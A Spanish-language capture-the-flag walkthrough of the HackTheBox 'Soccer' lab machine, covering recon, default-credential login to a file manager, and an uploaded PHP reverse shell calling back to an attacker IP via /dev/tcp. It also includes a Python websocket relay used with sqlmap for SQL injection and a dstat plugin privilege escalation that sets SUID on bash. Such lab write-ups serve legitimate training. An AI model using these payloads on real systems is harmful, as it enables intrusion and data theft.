



# Initial Recon

Comprobamos la conexión con la máquina víctima:

```bash
❯ ping -c 1 10.10.11.194
PING 10.10.11.194 (10.10.11.194) 56(84) bytes of data.
64 bytes from 10.10.11.194: icmp_seq=1 ttl=63 time=81.0 ms

--- 10.10.11.194 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 81.018/81.018/81.018/0.000 ms
```

Vamos a ejecutar nuestro escaneo con nmap:

```bash
❯ nmap 10.10.11.194
Nmap scan report for 10.10.11.194
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9091/tcp open  xmltec-xmlmail
```

Tenemos 3 puertos abiertos en la máquina, en los que podemos encontrar 3 servicios.

Lo primero que vamos a hacer es comprobar el puerto 80.

Mirando la cabecera «Location» cuando hacemos una petición curl, podemos ver el dominio.

```bash
❯ curl -s 10.10.11.194 -I | grep Location
Location: http://soccer.htb/
```

Añadimos la dirección de este sitio web a nuestro archivo /etc/hosts.

```bash
❯ echo "10.10.11.194 soccer.htb" | sudo tee -a /etc/hosts
```

# Web

Ahora podemos acceder al sitio web.

Utilizamos gobuster para listar directorios.

```bash
❯ gobuster dir -u http://soccer.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 100
===============================================================
[+] Url:                     http://soccer.htb
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/tiny                 (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
```

Encontré un subdominio:http://soccer.htb/tiny/



Encontramos un gestor de archivos con un inicio de sesión.

Busque credenciales por defecto en Internet:

```bash
Username: admin
Password: admin@123
```



Con esto obtenemos acceso al administrador de archivos. Podemos ver los archivos de la web y el directorio «tiny».

También podemos ver que podemos subir archivos en este botón que aparece en la parte superior de la página.

Podemos ver que la página está hecha en PHP, por lo que vamos a intentar enviar un ReverseShell en código PHP.

### shell.php

Crea un archivo que puedes llamar «shell.php» en el que escribes el comando que se ejecutará en la máquina víctima.

```bash
<?php
    system("bash -c 'bash -i >& /dev/tcp/10.10.14.85/443 0>&1'")
?>
```

Aquí comparto un generador de shell inverso, Rev Shell.



Después de crear nuestro archivo, lo subimos al gestor de archivos.
Netcat

Escuchamos en el puerto 443.

```bash
❯ sudo netcat -lvnp 443
[sudo] password for mhil4ne: 
listening on [any] 443 ...
```

Llamamos a nuestro shell.php:

```bash
❯ curl soccer.htb/tiny/uploads/shell.php
```
Ya tengo un shell como www-data.

### Python Exploit

Hagamos una inyección SQL.

Encontré un exploit escrito en Python para esto, modificamos algunas líneas de código para adaptarlo a la máquina víctima:

```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soccer.htb:9091/"

def send_ws(payload):
	ws = create_connection(ws_server)
	
	message = unquote(payload).replace('"','\'')
	data = '{"id":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Sending payloads")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```

Lo que hace este exploit es redirigir peticiones, vamos a ejecutarlo:

```bash
❯ python3 exploit.py
[+] Starting MiddleWare Server
[+] Sending payloads
```

### Sqlmap

Ahora, con sqlmap, tal y como habíamos configurado en el exploit de Python, apuntamos a nuestro localhost e intentamos listar las bases de datos.

```bash
❯ sqlmap -u "http://127.0.0.1:8081/?id=1" --batch -dbs
Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
```

Tenemos la tabla «cuentas»:

```bash
❯ sqlmap -u "http://127.0.0.1:8081/?id=1" --batch -D soccer_db -T accounts -columns
Database: soccer_db
Table: accounts
[4 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| email    | varchar(40) |
| id       | int         |
| password | varchar(40) |
| username | varchar(40) |
+----------+-------------+
```

Nos interesan las columnas «nombre de usuario» y «contraseña».

```bash
❯ sqlmap -u "http://127.0.0.1:8081/?id=1" --batch -D soccer_db -T accounts -C username,password -dump
Database: soccer_db
Table: accounts
[1 entry]
+----------+----------------------+
| username | password             |
+----------+----------------------+
| player   | PlayerOfthe********* |
+----------+----------------------+
```

### SSH Connection

```bash
❯ ssh player@10.10.11.194
player@10.10.11.194's password: 
```
# Privilege Escalation

Ahora sólo tendríamos que subir los privilegios.

Listamos el contenido de la siguiente ruta:

```bash
player@soccer:~$ ls -la /usr/local/share/dstat
total 8
drwxrwx--- 2 root player 4096 Mar 14 16:21 .
drwxr-xr-x 6 root root   4096 Nov 17 09:16 ..
```

Podemos ver que tenemos capacidad de escritura en la ruta «share/dstat», donde se almacenan los Plugins.

Lo que vamos a hacer es crear un archivo Python, y luego ejecutarlo como si fuera un Plugin, ya que tenemos permisos en esta ruta.

```bash
echo 'import os;os.system("chmod u+s /bin/bash")' > dstat_privesc.py
```

```bash
doas -u root /usr/bin/dstat --privesc &>/dev/null
```

```bash
bash -p
```
Aquí tenemos la Root

```bash
bash-5.0# ls /root/root.txt
/root/root.txt
bash-5.0# 
```